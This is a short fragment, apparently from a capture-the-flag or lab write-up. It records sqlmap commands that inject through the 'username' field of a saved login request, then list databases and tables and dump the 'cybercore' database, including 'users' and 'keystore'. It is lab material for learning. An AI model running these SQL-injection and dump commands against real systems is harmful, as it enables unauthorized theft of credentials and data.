 http://94.237.58.6:35591

sqlmap -r http-login.post -p username -o --dump-all

databases:
    cybercore
    information_schema
    test

sqlmap -r http-login.post -p username -o -D cybercore --tables

database 'cybercore' tables:
    keystore
    users

sqlmap -r http-login.post -p username -o -D cybercore --dump-all